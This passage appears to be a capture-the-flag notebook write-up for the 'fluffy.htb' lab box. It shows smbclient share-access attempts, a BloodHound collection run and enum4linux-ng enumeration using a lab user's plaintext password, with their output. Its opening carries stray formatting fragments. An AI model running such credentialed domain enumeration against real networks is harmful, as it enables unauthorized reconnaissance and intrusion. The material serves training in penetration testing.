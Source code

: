 ```sh
* CVE-2025-3445 Low

```sh
 smbclient //fluffy.htb/C$ -U fluffy/j.fleischman%J0elTHEM4n1990!
Can't load /etc/samba/smb.conf - run testparm to debug it
tree connect failed: NT_STATUS_ACCESS_DENIED
 smbclient //fluffy.htb/ADMIN$ -U fluffy/j.fleischman%J0elTHEM4n1990!
Can't load /etc/samba/smb.conf - run testparm to debug it
tree connect failed: NT_STATUS_ACCESS_DENIED


```python
!bloodhound-python -u j.fleischman -p J0elTHEM4n1990! -d fluffy.htb -ns $targetip -c All
```

    INFO: Found AD domain: fluffy.htb
    INFO: Getting TGT for user
    WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
    INFO: Connecting to LDAP server: dc01.fluffy.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: dc01.fluffy.htb
    INFO: Found 10 users
    INFO: Found 54 groups
    INFO: Found 2 gpos
    INFO: Found 1 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: DC01.fluffy.htb
    <snip>
    
    INFO: Done in 01M 06S


Add some more known-users to our list to target what we're searching for.


```python
!enum4linux-ng $target -w fluffy -w fluffy -u j.fleischman -p J0elTHEM4n1990! -k "p.agila,j.coffey,j.fleischman"
```

    [92mENUM4LINUX - next generation (v1.3.4)[0m
    
     ==========================
    |    Target Information    |
     ==========================
    [94m[*] Target ........... fluffy.htb[0m
    [94m[*] Username ......... 'j.fleischman'[0m
    [94m[*] Random Username .. 'rpxumzlw'[0m
    [94m[*] Password ......... 'J0elTHEM4n1990!'[0m
    [94m[*] Timeout .......... 5 second(s)[0m
    